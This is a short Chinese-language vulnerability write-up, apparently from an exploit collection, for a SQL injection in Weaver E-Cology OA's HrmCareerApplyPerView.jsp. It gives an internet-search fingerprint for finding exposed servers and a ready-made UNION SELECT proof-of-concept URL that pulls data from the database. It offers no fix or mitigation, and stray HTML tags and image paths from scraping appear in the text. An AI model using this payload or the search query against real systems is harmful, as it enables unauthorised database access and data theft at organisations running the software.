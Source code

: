# 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

泛微OA E-Cology </a-checkbox></br>

## 网络测绘

app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1656734700582-b9fa4bec-ab37-4bbb-b1fb-4ccccda497df.png)

验证POC

```php
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![img](../../../.vuepress/public/img/1656734767484-f94594ff-00ff-444f-8668-b9108e63ed02.png)